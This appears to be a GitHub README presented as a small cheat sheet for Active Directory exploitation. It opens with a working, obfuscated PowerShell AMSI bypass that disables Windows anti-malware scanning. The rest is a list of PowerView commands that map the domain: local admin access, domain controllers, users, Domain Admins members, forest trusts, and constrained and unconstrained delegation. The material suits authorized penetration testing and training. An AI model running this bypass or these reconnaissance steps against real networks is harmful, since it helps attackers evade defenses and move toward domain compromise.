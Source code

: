 # Active-directory-small-cheatsheet
Small easy to find cheat sheet for Active directory exploitation

**Amsi bypass:-**

sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )


**Tips**

To input the output of the first command into second command use this powershell technique


<First command> | %{<Second command> -<argument> $_}
%{} is an alias for ForEach-Object{}
?{} is an alias for Where-Object{}
$_ is variable


To filter out an object type we can use this technique with pipe.

?{$_.<object> -eq '<value>’'}


##**Enumeration:-**

**To find local admin access:-**

Find-LocalAdminAccess

**To get Domain sid:-**

Get-DomainSID 

Arguments -Domain “domain name”

**To get DC:-**

Get-NetDomainController

Arguments -Domain “domain name”

**To get users in current domain:-**

Get-NetUser

Arguments  -UserName “username”




**To get user properties:-**

Get-UserProperty

Arguments -Properties pwdlastset



**Search for a particular string in a user's attributes:-**

Find-UserField -SearchField Description -SearchTerm ”built”

**To Get all computers:-**

Get-NetComputer -FullData

Many arguments -OperatingSystem -Ping -FullData

**To get groups:-**

Get-NetGroup

Arguments -FullData -Domain

**To get members of a particular group:-**

Get-NetGroupMember -GroupName "Domain Admins"



**Mapping forest:-**

Get-NetForest -Verbose

Get-NetForestDomain -Verbose





**Mapping trust:-**

Get-NetDomainTrust
 
Arguments -Domain

Get-NetForestDomain -Verbose | Get-NetDomainTrust


**Finding Constrained Delegation:-**

Get-DomainUser -TrustedToAuth (Poweview Dev.)


**Finding UnConstrained Delegation:-**

Get-NetComputer -UnConstrained



